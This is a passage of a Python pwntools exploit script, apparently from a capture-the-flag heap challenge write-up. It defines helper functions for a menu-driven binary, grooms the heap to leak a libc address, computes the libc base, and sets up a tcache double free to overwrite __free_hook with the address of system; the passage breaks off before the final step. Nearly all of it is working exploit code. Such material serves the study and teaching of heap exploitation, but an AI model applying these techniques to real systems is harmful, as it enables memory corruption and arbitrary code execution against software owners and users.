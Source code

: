 ```
    print target.recvuntil("buf:")
    target.sendline(buff)
    print target.recvuntil("Done!")

def remove(index):
    print target.recvuntil("Exit\n")
    target.sendline("2")
    print target.recvuntil("idx: ")
    target.sendline(str(index))
    print target.recvuntil("Done!")

def view(index):
     print target.recvuntil("Exit\n")
     target.sendline("3")
     print target.recvuntil("idx: ")
     target.sendline(str(index))
     leak = target.recvline()
     leak = leak.strip("\n")
     leak = u64(leak + "\x00"*(8-len(leak)))
     print target.recvuntil("Done!")
     return leak


# Add the strings for the libc infoleak
add("0", "1")
add("2"*0x1000, "3"*0x1000)
add("3", "4")
add("3", "4")
add("3", "4")
add("3", "4")

# Remove the strings to groom the heap for the libc infoleak
remove(5)
remove(4)
remove(3)
remove(2)
remove(0)

# Leak the libc address, and calculate the base
libcLeak = view(0)
libcBase = libcLeak - 0x3ebca0
log.info("libc base: " + hex(libcBase))

# Clear out the tcache (this and the next block)
add("1", "1")
add("1", "1")
add("1", "1")

# Setup double free for tcache poisoning (finish clearing out tcache)
add("1", "1")
add("2", "2")

# Execute tcache poisoning via double free
remove(1)
remove(1)

# Use double free to allocate chunk that is also in tcache bin
# Overwrite next pointer for tcache entry at the head with that of __free_hook
# Also allocate next chunk, so next chunk allocated will be to __free_hook
add("15935728", p64(libcBase + libc.symbols["__free_hook"]))

# Allocate next chunk from tcache_bin which will be to __free_hook
# Write libc address of system to it
```